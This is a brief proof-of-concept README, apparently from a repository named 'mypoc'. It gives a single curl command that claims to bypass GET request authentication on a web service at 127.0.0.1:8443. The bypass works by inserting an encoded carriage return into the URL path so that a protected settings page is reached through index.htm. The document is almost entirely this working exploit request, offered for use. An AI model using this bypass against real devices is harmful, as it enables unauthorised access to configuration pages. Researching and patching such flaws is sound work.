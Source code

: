 # mypoc
Through following curl command can bypass get request authentication
curl -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1:8443' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: none' -H $'Sec-Fetch-User: ?1' -H $'Te: trailers' -H $'Connection: close' \
    $'https://127.0.0.1:8443/index.htm%0dcurrentsetting.htm'

